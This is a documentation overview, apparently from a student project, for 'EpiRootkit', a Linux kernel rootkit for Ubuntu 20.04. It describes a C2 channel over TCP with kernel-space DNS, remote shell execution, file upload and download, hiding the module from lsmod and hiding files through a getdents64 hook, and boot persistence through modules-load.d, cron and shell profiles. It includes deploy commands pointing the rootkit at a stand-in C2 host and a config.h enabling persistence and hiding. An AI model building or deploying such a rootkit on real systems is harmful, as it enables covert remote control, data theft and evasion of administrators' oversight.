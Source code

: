```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## What We Built

EpiRootkit is a kernel module that provides:

- **C2 Communication**: TCP connection to command & control server with **domain support**
- **DNS Resolution**: Kernel-space DNS resolver for domain-based C2 servers
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **Stealth**: Hide module from `lsmod` and hide files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots
- **Proper Deployment**: Two-stage architecture following Linux best practices

## Architecture

### Deployment Architecture
```
Deployment Script  ←→  EpiRootkit (Kernel Module)  ←→  Target System
Stage 1: Loader       Stage 2: Runtime            Linux Kernel 5.4.0
```

**Two-Stage Deployment:**
- **Stage 1 (Loader)**: `scripts/deploy_rootkit.sh` handles proper module deployment
- **Stage 2 (Runtime)**: Rootkit focuses on functionality, not self-deployment

### Communication Architecture
```
C2 Server (Node.js)  ←→  EpiRootkit (Kernel Module)  ←→  Target System
Port 4444                Network + Commands              Linux Kernel 5.4.0
Domain/IP Support         DNS Resolution                  
```

## Quick Demo

```bash
# 1. Build and load rootkit with domain support
cd rootkit && make && sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use the rootkit
c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
c2-server$ status Client-1
```

##  Bonus Feature: DNS Resolution

**Real rootkit behavior with domain-based C2 communication**

- **Kernel-space DNS resolver**: No dependency on userspace tools
- **Google DNS (8.8.8.8)**: Reliable domain resolution


```bash
# Deploy with domain instead of IP
sudo ./deploy_rootkit.sh address=jules-c2.example.com port=443

# Rootkit automatically resolves domain on connection
# [2025-05-25 16:13:09] Resolving domain: jules-c2.example.com
# [2025-05-25 16:13:09] Resolved jules-c2.example.com to 203.0.113.42
# [2025-05-25 16:13:09] Connected to C2 server jules-c2.example.com:443
```

## Core Components

### Network Layer
- **Connection Management**: Persistent TCP connection with auto-reconnect
- **DNS Resolution**: Kernel-space domain name resolution 
- **Keepalive System**: 60-second ping/pong to detect disconnections
- **Socket Handling**: Low-level network operations

### Command System
- **Authentication**: `auth` - SHA-512 password verification
- **Execution**: `exec` - Run shell commands with output capture
- **File Operations**: `upload`/`download` - Transfer files
- **Status**: `status` - Get rootkit information
- **Persistence**: `persist_*` - Install/remove boot persistence
- **Stealth**: `hide_module`/`unhide_module` - Toggle visibility

### Stealth Features
- **Module Hiding**: Remove from kernel module list (`lsmod`)
- **File Hiding**: Hide files with specific prefixes from directory listings
- **Syscall Hooking**: Uses kretprobe on `getdents64`

### Persistence Mechanisms
- **modules-load.d**: Systemd automatic module loading
- **Cron Jobs**: Scheduled module loading
- **Shell Profiles**: Load via user login scripts

## Technical Details

- **Target**: Ubuntu 20.04 LTS with kernel 5.4.0
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs Used**: ftrace, kretprobe, VFS, crypto API, **UDP sockets for DNS**
- **Network**: TCP on port 4444 (configurable) with domain support
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)
- **DNS**: Google DNS (8.8.8.8) for domain resolution

## Configuration

Key settings in `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP address
#define C2_SERVER_PORT 4444
#define ENABLE_ENCRYPTION 0        // Currently disabled
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation Structure

- **[Deployment](./deployment.md)**: How to build and load the rootkit with domain support
- **[Connection](./connection-authentication.md)**: Network communication and DNS resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


